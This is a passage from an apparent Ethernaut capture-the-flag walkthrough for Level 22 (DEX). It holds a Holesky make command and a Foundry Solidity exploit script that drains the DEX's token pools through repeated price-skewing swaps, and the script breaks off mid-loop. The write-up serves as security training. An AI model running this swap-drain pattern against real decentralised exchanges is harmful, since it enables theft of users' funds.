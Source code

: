 {% tab title="Holesky" %}
```bash
make holesky-exploit-level-22

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/251e25ab00798a6972a1496ef3f1131bbca565b4/script/Level22.s.sol" %}

{% code title="script/Level22.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                          LEVEL 22 - DEX                      │
// ================================================================
interface IDex {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address from, address to, uint256 amount) external;
    function approve(address spender, uint256 amount) external;
    function balanceOf(address token, address account) external view returns (uint256);
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IDex dex = IDex(targetContractAddress);

        vm.startBroadcast();
        // Get token addresses
        address token1 = dex.token1();
        address token2 = dex.token2();

        // Approve the target contract to spend the tokens
        dex.approve(targetContractAddress, type(uint256).max);

        // Swap tokens until the contract runs out of one of the tokens
        while (dex.balanceOf(token1, address(dex)) > 0 && dex.balanceOf(token2, address(dex)) > 0) {
            // Swap the amount of tokens in the dex or the amount of tokens in the attacker account, whichever is smaller
            dex.swap(
                token1,
                token2,
                dex.balanceOf(token1, msg.sender) < dex.balanceOf(token1, address(dex))
                    ? dex.balanceOf(token1, msg.sender)
                    : dex.balanceOf(token1, address(dex))
            );
            dex.swap(
                token2,
                token1,
                dex.balanceOf(token2, msg.sender) < dex.balanceOf(token2, address(dex))
                    ? dex.balanceOf(token2, msg.sender)
                    : dex.balanceOf(token2, address(dex))
            );
```
